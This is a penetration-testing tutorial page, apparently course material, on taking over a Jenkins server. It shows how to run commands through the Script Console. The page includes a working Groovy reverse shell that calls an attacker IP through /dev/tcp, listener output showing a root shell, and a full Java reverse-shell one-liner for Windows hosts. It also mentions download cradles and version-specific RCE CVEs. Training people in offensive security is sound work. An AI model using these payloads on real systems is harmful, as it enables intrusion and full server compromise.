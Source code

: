 # Attacking Jenkins

We've confirmed that the host is running Jenkins, and it is configured with weak credentials. Let's check and see what type of access this will give us.

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/). The script console allows us to run arbitrary Groovy scripts within the Jenkins controller runtime. This can be abused to run operating system commands on the underlying server. Jenkins is often installed in the context of the root or SYSTEM account, so it can be an easy win for us.

***

## Script Console

The script console can be reached at the URL `http://jenkins.inlanefreight.local:8000/script`. This console allows a user to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) scripts, which are an object-oriented Java-compatible language. The language is similar to Python and Ruby. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

Using this script console, it is possible to run arbitrary commands, functioning similarly to a web shell. For example, we can use the following snippet to run the `id` command.

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

<figure><img src="../../../../.gitbook/assets/image (336).png" alt=""><figcaption><p>http://jenkins.inlanefreight.local:8000/script</p></figcaption></figure>

There are various ways that access to the script console can be leveraged to gain a reverse shell. For example, using the command below, or [this](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) Metasploit module.

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Running the above commands results in a reverse shell connection.

```shell-session
$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#
```

Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host, swapping out `localhost` and the port for our IP address and listener port.

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

***

## Miscellaneous Vulnerabilities

Several remote code execution vulnerabilities exist in various versions of Jenkins. One recent exploit combines two vulnerabilities, CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) to achieve pre-authenticated remote code execution, bypassing script security sandbox protection during script compilation. Public exploit PoCs exist to exploit a flaw in Jenkins dynamic routing to bypass the Overall / Read ACL and use Groovy to download and execute a malicious JAR file. This flaw allows users with read permissions to bypass sandbox protections and execute code on the Jenkins master server. This exploit works against Jenkins version 2.137.

Another vulnerability exists in Jenkins 2.150.2, which allows users with JOB creation and BUILD privileges to execute code on the system via Node.js. This vulnerability requires authentication, but if anonymous users are enabled, the exploit will succeed because these users have JOB creation and BUILD privileges by default.

As we have seen, gaining access to Jenkins as an administrator can quickly lead to remote code execution. While several working RCE exploits exist for Jenkins, they are version-specific. At the time of writing, the current LTS release of Jenkins is 2.303.1, which fixes the two flaws detailed above. As with any application or system, it is important to harden Jenkins as much as possible since built-in functionality can be easily used to take over the underlying server.

***

## Shifting Gears

We've covered various ways that popular CMS' and servlet containers/software development applications can be abused to exploit both known vulnerabilities and built-in functionality. Let's shift our focus a bit to two well-known infrastructure/network monitoring tools: Splunk and PRTG Network Monitor.
